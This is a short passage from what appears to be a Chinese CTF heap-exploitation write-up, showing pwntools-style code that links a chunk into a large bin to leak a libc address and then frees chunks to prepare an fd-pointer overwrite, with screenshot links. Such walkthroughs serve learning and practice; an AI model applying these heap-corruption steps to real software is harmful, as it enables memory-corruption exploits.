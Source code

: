然后把这个相同 fd 的 chunk 链入 large bin，泄露 libc

```plain
delete(8)
add(0x498,'dddd')
show(1)
libc_base=u64(p.recv(6).ljust(8,'\x00'))-0x1ff0f0-0x20
```

[![](assets/1701606615-0fc7c089e626dba7b2cbc1c2ba54d2f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213729-1f29b086-83bc-1.png)

```plain
delete(2)
delete(3)
```

[![](assets/1701606615-45285316234c545214b0198de9ffdc3d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213741-267784da-83bc-1.png)  
然后找个比较进的地址去改 fd
